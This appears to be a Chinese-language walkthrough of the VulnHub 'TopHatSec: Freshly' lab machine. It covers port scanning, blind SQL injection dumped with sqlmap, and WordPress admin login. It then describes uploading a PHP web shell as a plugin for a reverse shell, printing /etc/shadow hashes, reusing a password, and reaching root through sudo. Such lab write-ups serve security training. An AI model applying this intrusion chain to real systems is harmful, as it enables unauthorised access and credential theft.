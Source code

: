 # TopHatSec: Freshly

2024-11-6 https://www.vulnhub.com/entry/tophatsec-freshly,118/

difficulty: Not easy

## IP

192.168.5.39

## Scan

```
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
8080/tcp open  http-proxy
```

目录扫描发现 http://192.168.5.39/login.php 看看有没有 sql 注入漏洞，经过测试存在 sql 盲注，直接使用 sqlmap 进行读取，发现如下数据库：

```
[*] information_schema
[*] login
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] users
[*] wordpress8080
```

8080 的 web 服务上有一个 wordpress 系统，优先查看 wordpress8080 这个数据库，获得其中 wp_users 中的数据：

```
Database: wordpress8080
[1 table]
+-------+
| users |
+-------+

Database: wordpress8080
Table: users
[1 entry]
+---------------------+----------+
| password            | username |
+---------------------+----------+
| SuperSecretPassword | admin    |
+---------------------+----------+
```

在 8080 端口上的 wordpress 进行登陆，http://192.168.5.39:8080/wordpress/wp-login.php 登陆成功

将 php web shell 打成 zip，然后在 Plugins -> Add New 中上传 zip，然后在 kali 上创建监听，访问 http://192.168.5.39:8080/wordpress/wp-content/upgrade/8888/8888.php 就获得了反弹的 shell。

查看提权路径，发现 /etc/shadow 可读：

```
root:$6$If.Y9A3d$L1/qOTmhdbImaWb40Wit6A/wP5tY5Ia0LB9HvZvl1xAGFKGP5hm9aqwvFtDIRKJaWkN8cuqF6wMvjl1gxtoR7/:16483:0:99999:7:::
user:$6$MuqQZq4i$t/lNztnPTqUCvKeO/vvHd9nVe3yRoES5fEguxxHnOf3jR/zUl0SFs825OM4MuCWlV7H/k2QCKiZ3zso.31Kk31:16483:0:99999:7:::
candycane:$6$gfTgfe6A$pAMHjwh3aQV1lFXtuNDZVYyEqxLWd957MSFvPiPaP5ioh7tPOwK2TxsexorYiB0zTiQWaaBxwOCTRCIVykhRa/:16483:0:99999:7:::
```

没有找到 root 的密码，在/home 目录只发现了一个用户 user，尝试用 SuperSecretPassword 这个密码去切换到 user 用户，切换成功，这里存在密码复用的问题。

sudo -l 发现存在最高权限：

```
(ALL : ALL) ALL
```

```
user@Freshly:~$ sudo /bin/bash
root@Freshly:~# id
uid=0(root) gid=0(root) groups=0(root)
```
